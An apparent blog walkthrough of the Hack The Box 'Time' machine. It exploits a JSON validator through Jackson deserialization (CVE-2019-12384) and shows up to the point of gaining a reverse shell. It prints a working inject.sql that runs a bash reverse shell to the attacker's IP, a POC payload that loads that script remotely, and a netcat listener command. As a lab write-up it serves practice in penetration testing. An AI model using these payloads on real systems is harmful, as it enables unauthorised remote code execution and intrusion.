 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell [(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))].
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000 in Validate (Beta!).
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server..**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```...**

**POC payload..**
```php
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.11:8000/inject.sql'"}]
```
**Here** 

![](https://i.ibb.co/nc1pGwZ/image.png)

**Looking to http server we found GET /inject.sql is 200 and that's OK.**

![](https://i.ibb.co/dtjG5BM/image.png)

**Our listner..*
![](https://i.ibb.co/XshCJMZ/image.png)

> * We got reverse shell successfully.


![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
